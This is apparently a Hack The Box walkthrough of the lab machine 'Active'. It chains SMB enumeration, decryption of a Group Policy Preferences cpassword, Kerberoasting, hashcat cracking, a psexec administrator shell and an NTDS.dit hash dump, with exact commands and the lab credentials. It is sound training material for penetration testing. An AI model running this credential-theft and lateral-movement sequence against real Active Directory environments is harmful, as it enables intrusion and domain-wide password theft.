 ```yaml
---
title: HTB-Active
draft: false
tags:
  - htb
  - windows
  - active-directory
  - gpp
  - kerberoasting
  - psexec
  - easy
---
```

## Information Gathering
### Rustscan
Based on the ports open, it is obvious this machine is Active Directory machine:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/active]
└─$ sudo rustscan --addresses 10.10.10.100 --range 1-65535
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
<snip>
Host is up, received echo-reply ttl 127 (0.35s latency).
Scanned at 2024-03-18 10:07:11 EDT for 6s

PORT STATE SERVICE REASON
88/tcp open kerberos-sec syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127
593/tcp open http-rpc-epmap syn-ack ttl 127
636/tcp open ldapssl syn-ack ttl 127
9389/tcp open adws syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49152/tcp open unknown syn-ack ttl 127
49154/tcp open unknown syn-ack ttl 127
49155/tcp open unknown syn-ack ttl 127
49157/tcp open unknown syn-ack ttl 127
49158/tcp open unknown syn-ack ttl 127
49169/tcp open unknown syn-ack ttl 127
49182/tcp open unknown syn-ack ttl 127
  
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.87 seconds
Raw packets sent: 32 (1.384KB) | Rcvd: 16 (688B)
```
  

## Enumeration

### RPC - TCP 135
I was able to signin to RPC as null user but all the access was denied -> Dead End. 

`rpcclient -U "" -N 10.10.10.100`

![](https://i.imgur.com/0atiqxW.png)


### LDAP - TCP 389/3268
I first queried for base naming contexts: **DC=active,DC=htb**

`ldapsearch -H ldap://10.10.10.100 -x -s base namingcontexts`

![](https://i.imgur.com/XLFxpvF.png)

I tried on null sessions but it required authentication -> Dead End.

`ldapsearch -H ldap://10.10.10.100 -x -b "DC=active,DC=htb"`

![](https://i.imgur.com/tsXGXCt.png)


### SMB - TCP 445

Running crackmapexec with SMB, I can confirm the domain name: **active.htb**:


`crackmapexec smb 10.10.10.100`

![](https://i.imgur.com/GnnGjk9.png)


Using **smbclient**, I was able to list out shares without any creds.
  
Among all the shares, share **Replication** and **Users** seemed interesting to me:

`smbclient -N -L //10.10.10.100`

![](https://i.imgur.com/81iDAHc.png)


  
I tried accessing **Users** share, but access was denied: 

`smbclient -N //10.10.10.100/Users`

![](https://i.imgur.com/YXKc4Su.png)

## Replication Share - SMB
Luckily, **Replication** share was accessible: 

`smbclient -N //10.10.10.100/Replication`

![](https://i.imgur.com/ANbV2SB.png)


Recursively downloaded entire acitve.htb directory:

```bash
smb: \> mask ""
smb: \> lcd .
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
```

Now enumerating the share on my local kali machine, I discovered **Groups.xml** file which seemed to have exposed username and encrypted password for it:
  
**Username**: SVC_TGS
**cpassword**: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


`grep -ir 'password' active.htb`

![](https://i.imgur.com/qKfj3Cz.png)


## GPP Password Cracking

Googling a bit about what cpassword, I learned that it is usually used on Active Directory environment and it has weak encryption:

>A cpassword is used for setting passwords from the Group Policy Preferences. Cpasswords are encrypted using a weak encryption algorithm, which can be easily decrypted and used for lateral movement.

SImply running **gpp-decrypt** with the found cpassword, I was able to decrypt the hash:
  
**SVC_TGS**:**GPPstillStandingStrong2k18**

`gpp-decrypt hash`

![](https://i.imgur.com/vIROBEc.png)
### Checking Access

Checking what access this user got with crackmapexec, it seemed that I'd be able to access more shares with this user credentials:

`crackmapexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'`

![](https://i.imgur.com/KwavNlT.png)

Signing into **Users** share, I have access to user.txt

`smbclient //10.10.10.100/Users -U SVC_TGS%GPPstillStandingStrong2k18`

![](https://i.imgur.com/xH4JGZh.png)

I wanted better shell so I tried psexec but it wouldn't work in this case since SVC_TGS is not administrator user.
  
## Kerberoasting
Now with the credentials for user **SVC_TGS**, I tried kerberoasting, which gave me hash for user **Administrator**

`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip dc.active.htb -request`

![](https://i.imgur.com/4waHocL.png)


### Hash cracking

I moved the found hash to **hashcat** and cracked it: **Ticketmaster1968**

`hashcat -m 13100 hash rockyou.txt`

![](https://i.imgur.com/czlVuiI.png)


### SMB as Administrator
  
Using the creds found above, I can now access Administrator directories through smb:

`smbclient //10.10.10.100/Users -U Administrator%Ticketmaster1968`

![](https://i.imgur.com/S7CHG7D.png)
 
  
## psexec shell as Administrator
Since I always pursue shell connection, I can **psexec** as Administrator as well:

`impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.10.10.100`

![](https://i.imgur.com/9Kw8Mwb.png)

## Beyond root
### Dumping NTDS.dit

I can also dump **NTDS.dit** using secretsdump.py:

`secretsdump.py active.htb/Administrator:'Ticketmaster1968'@10.10.10.100 -just-dc-ntlm`

![](https://i.imgur.com/GomR127.png)


  
  

